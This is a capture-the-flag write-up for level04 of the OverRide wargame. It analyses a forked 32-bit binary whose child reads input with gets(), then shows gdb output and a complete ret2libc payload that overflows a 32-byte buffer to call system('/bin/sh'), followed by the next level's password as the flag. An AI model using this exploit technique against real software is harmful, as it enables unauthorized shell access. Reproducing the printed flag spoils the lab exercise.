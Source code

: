 # **Level04**

In this level, the program asks us to provide shellcode.

```nasm
$ ./level04
Give me some shellcode, k
hello
```

## **Binary Analysis**

The program forks into a **parent** and **child** process:

- **Parent Process:**
    - Monitors the child using `wait()`.
    - Detects `exec()` calls and terminates the child if triggered.
- **Child Process:**
    - Uses `prctl()` and `ptrace()` to prevent debugging.
    - Reads user input with `gets()` (**buffer overflow vulnerability**).

The parent ensures execution control, while the child has a critical vulnerability in `gets()`.

```nasm
 	; Fork process
   0x080486d6: call   fork@plt
   0x080486db: mov    %eax,0xac(%esp)    ; Store pid

  ; Buffer setup
   0x080486d0: sub    $0xb0,%esp         ; Allocate 176 bytes
   0x080486e2: lea    0x20(%esp),%ebx    ; Buffer at esp+32
   0x080486eb: mov    $0x20,%edx         ; Size 32 bytes
   
	  ; Child process (pid == 0)
		0x08048713: movl   $0x1,0x4(%esp)    ; PR_SET_PDEATHSIG
		0x08048722: call   prctl@plt         ; Set death signal
		0x08048746: call   ptrace@plt        ; Anti-debugging
		
		; Parent process
		0x080487dc: call   ptrace@plt        ; Monitor child
		0x080487e8: cmpl   $0xb,0xa8(%esp)   ; Check for SIGTRAP
		
		; In child process
		0x0804875b: mov    %eax,(%esp)       ; Buffer address
		0x0804875e: call   gets@plt          ; Vulnerable gets call
```


## **Vulnerability**

The `gets()` function doesn't check the input size, and the buffer is only 32 bytes. This lets us write past the buffer and overwrite the return address, which can be exploited. Also, there is a vulnerability in the libc functions that can be used.

```c
gdb) info functions
[...]
0x08048530  __libc_start_main
0x08048530  __libc_start_main@plt
[...]
(gdb)
```

## **Exploit**

We need to retrieve the address of the `system` function and the address of the `"/bin/sh"` string to spawn a shell.

```c
(gdb) b *main
Breakpoint 1 at 0x80486c8
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb)
```

Next, we need to find the offset of the return address by analyzing what happens when we input various lengths.

```python
    # 0xb0 
    python -c 'print "A"*176' | ./level04
    ...

    python -c 'print "A"*172' | ./level04
    ...
    [...]

    python -c 'print "A"*156' | ./level04
    Give me some shellcode, k

    # 152 bytes: Program behavior changes
    level04@OverRide:~$ python -c 'print "A"*152' | ./level04
    Give me some shellcode, k
    child is exiting...
```

Now we can create the proper exploit:

```python
# Addresses
system = 0xf7e6aed0    # system() address
binsh = 0xf7f897ec     # "/bin/sh" string address

# Craft payload
payload = "A" * 156     # Exact padding to reach return address
payload += system       # system() address
payload += "JUNK"       # 4 bytes fake return
payload += binsh        # "/bin/sh" address
```

Final exploit:

```python
(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "MIMI" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

Execute the exploit:

```python
level04@OverRide:~$ (python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "MIMI" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

```

## Flag

```python
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```